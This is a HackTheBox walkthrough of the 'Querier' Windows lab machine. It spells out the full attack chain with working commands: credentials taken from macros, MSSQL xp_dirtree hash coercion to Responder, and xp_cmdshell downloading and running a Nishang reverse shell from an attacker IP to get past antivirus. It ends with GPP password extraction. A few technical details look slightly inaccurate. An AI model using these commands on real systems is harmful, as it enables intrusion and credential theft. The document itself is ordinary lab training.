



# Querier — HackTheBox Walkthrough

**Platform:** HackTheBox
**Difficulty:** Medium
**OS:** Windows

---

## TL;DR

Enumerating the SMB share reveals an Excel file with hidden macros containing database credentials (`reporting:PcwTWTHRwryjc$c6`) → Authenticating to MSSQL and coercing the server to authenticate to our Responder instance via `xp_dirtree` captures the `mssql-svc` NTLMv2 hash → Cracking the hash (`mssql-svc:corporate568`) grants elevated MSSQL access → Enabling `xp_cmdshell` allows downloading and executing a Nishang reverse shell → Running PowerUp (`Invoke-AllChecks`) on the host reveals a plaintext Administrator password cached in Group Policy Preferences (GPP).

---

## Enumeration

Full nmap scan:

```bash
nmap -sC -sV -p- -n -Pn --min-rate=9018 10.10.10.125
```

**Open Ports:**
| Port | Service | Version |
|------|---------|---------|
| 135 | RPC | Microsoft Windows RPC |
| 139 | NetBIOS | Microsoft Windows netbios-ssn |
| 445 | SMB | microsoft-ds |
| 1433 | MSSQL | Microsoft SQL Server 2017 RTM |
| 5985 | WinRM | Microsoft HTTPAPI httpd 2.0 |

The box is a Windows machine running a Microsoft SQL Server (MSSQL) on port 1433 and exposing typical Windows services (SMB, RPC, WinRM).

---

## Exploitation — Macro Credentials & MSSQL Hash Coercion

We begin by checking for anonymous SMB access. We successfully connect and find a readable share containing a Microsoft Excel file (e.g., `Currency Volume Report.xlsm`).

We download the file to our attacking machine. Because it's a macro-enabled Excel document (`.xlsm`), we analyze it using the `olevba` tool from the `oletools` suite to extract hidden VBA scripts:

```bash
olevba "Currency Volume Report.xlsm"
```



The VBA script output contains a hardcoded connection string intended to fetch data from the database. It reveals a set of credentials:
`reporting : PcwTWTHRwryjc$c6`

We use Impacket's `mssqlclient.py` to authenticate to the MSSQL server on port 1433:

```bash
impacket-mssqlclient reporting:PcwTWTHRwryjc\$c6@10.10.10.125
```

We successfully log in. However, checking our permissions, the `reporting` user does not have `sysadmin` privileges, and we cannot enable `xp_cmdshell` to execute system commands.

To escalate privileges, we can coerce the MSSQL server to authenticate back to us. MSSQL has a built-in stored procedure named `xp_dirtree`, which lists directories. If we point it to a UNC path we control, the Windows host will attempt to authenticate to our SMB server, exposing its NetNTLMv2 hash.

We start Responder on our attacking machine:

```bash
sudo responder -I tun0 -A
```

In our MSSQL shell, we execute the coercion trigger:

```sql
EXEC master.dbo.xp_dirtree '\\10.10.14.32\test';
```

Responder instantly captures the hash for the service account running the database: `mssql-svc`.



We save the hash and crack it offline using Hashcat (Mode 27100 for NTLMv2) and the RockYou wordlist:

```bash
hashcat -m 27100 mssql-svc.hash /usr/share/wordlists/rockyou.txt --force
```

The password cracks successfully: `mssql-svc : corporate568`.

---

## Privilege Escalation — Nishang RevShell & GPP Passwords

Armed with the service account password, we authenticate to the MSSQL server again, this time as `mssql-svc`:

```bash
impacket-mssqlclient mssql-svc:corporate568@10.10.10.125 -windows-auth
```

Because `mssql-svc` is a highly privileged database user, we can now enable `xp_cmdshell` to execute commands on the underlying operating system:

```sql
EXEC sp_configure 'Show Advanced Options', 1; RECONFIGURE; 
EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
```

We attempt to establish a standard reverse shell, but we discover that Windows Defender (or another AV) is actively blocking standard payloads (like `nc.exe` or basic base64 encoded PowerShell).

To bypass this, we use the `Invoke-PowerShellTcp.ps1` script from the Nishang framework:
`/usr/share/windows-resources/nishang/Shells/Invoke-PowerShellTcp.ps1`

We copy the script to our working directory and append the execution command to the very end of the file:

```powershell
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.32 -Port 6969
```

We host the modified script using a Python HTTP server (`python3 -m http.server 80`).
We start a Netcat listener on port 6969.

From our `xp_cmdshell` prompt, we instruct the target to download the script into `C:\windows\tasks` and execute it:

```sql
xp_cmdshell 'powershell "iwr -uri http://10.10.14.32/reverse.ps1 -outfile C:\windows\tasks\reverse.ps1"'
xp_cmdshell 'powershell "C:\windows\tasks\reverse.ps1"'
```

The reverse shell connects back, bypassing the AV restrictions. We now have an interactive shell as `mssql-svc`.

To enumerate local privilege escalation vectors, we upload `PowerUp.ps1` (from PowerSploit) to the target machine and execute it:

```powershell
. .\PowerUp.ps1
Invoke-AllChecks
```

PowerUp scans the system and discovers a plaintext password cached internally by an ancient Windows feature known as Group Policy Preferences (GPP). In older versions of Windows domains, administrators could deploy local administrator passwords via XML files stored on the `SYSVOL` share. The decryption key for these GPP passwords was accidentally published by Microsoft on MSDN years ago. PowerUp automatically finds the XML file and decrypts the password for us.



PowerUp extracts the following credential:
`Administrator : MyUnclesAreMarioAndLuigi!!1!`

We use Evil-WinRM to connect to the machine as Administrator using the newly discovered credentials:

```bash
evil-winrm -i 10.10.10.125 -u Administrator -p 'MyUnclesAreMarioAndLuigi!!1!'
```

We are `NT AUTHORITY\SYSTEM`. **Root.** 🎉

---

## Key Takeaways

- **Malicious Macros:** Always inspect office documents (`.xlsm`, `.docm`) found on file shares using tools like `olevba`. Developers frequently hardcode database connection strings to power dashboards or reports.
- **MSSQL Coercion:** If you have low-privileged access to an MSSQL database, `xp_dirtree` is a highly effective way to steal the NTLMv2 hash of the SQL service account for offline cracking.
- **Group Policy Preferences (GPP):** While Microsoft patched this vulnerability in 2014 (MS14-025), legacy domains or carelessly upgraded networks often leave old `Groups.xml` or `Services.xml` files containing decrypted passwords lying in the `SYSVOL` share.

---

*Thanks for reading! Follow for more HackTheBox walkthrough content.*